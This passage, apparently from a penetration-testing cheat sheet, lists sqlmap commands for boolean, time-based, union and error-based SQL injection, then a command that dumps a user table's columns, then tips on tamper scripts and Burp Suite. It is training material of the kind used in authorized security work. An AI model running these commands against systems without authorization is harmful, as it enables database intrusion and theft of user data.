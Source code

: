 *   Boolean-based blind injection:

    ```bash
    sqlmap -u "$URL" --technique=B --dbs
    ```
*   Time-based blind injection:

    ```bash
    sqlmap -u "$URL" --technique=T --dbs
    ```
*   Union-based injection:

    ```bash
    sqlmap -u "$URL" --technique=U --dbs
    ```
*   Error-based injection:

    ```bash
    sqlmap -u "$URL" --technique=E --dbs
    ```
*   Dump user table:

    ```bash
    sqlmap -u "$URL" -D "$DB" -T "$TABLE" -C "$COLS" --dump
    ```

***

### V. Tips for Success

* Always start by exporting your variables.
* Take time on blind injections.
* Explore different tamper scripts.
* Check SQLMap’s help for advanced options.
* Integrate with Burp Suite or manual testing.
* Practice dynamic command execution for speed.

